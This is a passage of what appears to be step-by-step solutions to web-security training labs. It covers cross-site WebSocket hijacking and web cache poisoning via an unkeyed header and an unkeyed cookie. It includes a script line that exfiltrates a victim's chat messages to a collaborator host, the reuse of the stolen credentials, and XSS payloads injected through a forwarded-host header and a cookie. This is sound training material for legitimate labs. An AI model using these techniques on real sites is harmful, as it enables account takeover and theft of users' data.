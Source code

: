       ws.onmessage = function(event) {  
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});  
      };  
    </script>`
7.  Replace `your-websocket-url` with the URL from the WebSocket handshake (`your-lab-id.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by [Burp Collaborator Client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
8.  Click "View exploit".
9.  Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10.  Go back to the exploit server and deliver the exploit to the victim.
11.  Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12.  Use the exfiltrated credentials to log in to the victim user's account.

## Web Cache Poisoning

### Lab: Web cache poisoning with an unkeyed header

1.  With Burp running, load the website's home page
2.  In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the `GET` request for the home page and send it to Burp Repeater.
3.  Add a cache-buster query parameter, such as `?cb=1234`.
4.  Add the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`, and send the request.
5.  Observe that the `X-Forwarded-Host` header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.
6.  Replay the request and observe that the response contains the header `X-Cache: hit`. This tells us that the response came from the cache.
7.  Go to the exploit server and change the file name to match the path used by the vulnerable response: `/resources/js/tracking.js`
8.  In the body, enter the payload `alert(document.cookie)` and store the exploit.
9.  Open the `GET` request for the home page in Burp Repeater and remove the cache buster.
10.  Add the following header, remembering to enter your own exploit server ID:  
    `X-Forwarded-Host: your-exploit-server-id.web-security-academy.net`
11.  Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and `X-Cache: hit` in the headers.
12.  To simulate the victim, load the poisoned URL in your browser and make sure that the `alert()` is triggered. Note that you have to perform this test before the cache expires. The cache on this lab expires every 30 seconds.
13.  If the lab is still not solved, the victim did not access the page while the cache was poisoned. Keep sending the request every few seconds to re-poison the cache until the victim is affected and the lab is solved.

### Lab: Web cache poisoning with an unkeyed cookie

1.  With Burp running, load the website's home page.
2.  In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Notice that the first response you received sets the cookie `fehost=prod-cache-01`.
3.  Reload the home page and observe that the value from the `fehost` cookie is reflected inside a double-quoted JavaScript object in the response.
4.  Send this request to Burp Repeater and add a cache-buster query parameter.
5.  Change the value of the cookie to an arbitrary string and resend the request. Confirm that this string is reflected in the response.
6.  Place a suitable [XSS](https://portswigger.net/web-security/cross-site-scripting) payload in the `fehost` cookie, for example:  
    `fehost=someString"-alert(1)-"someString`
7.  Replay the request until you see the payload in the response and `X-Cache: hit` in the headers.
8.  Load the URL in your browser and confirm the `alert()` fires.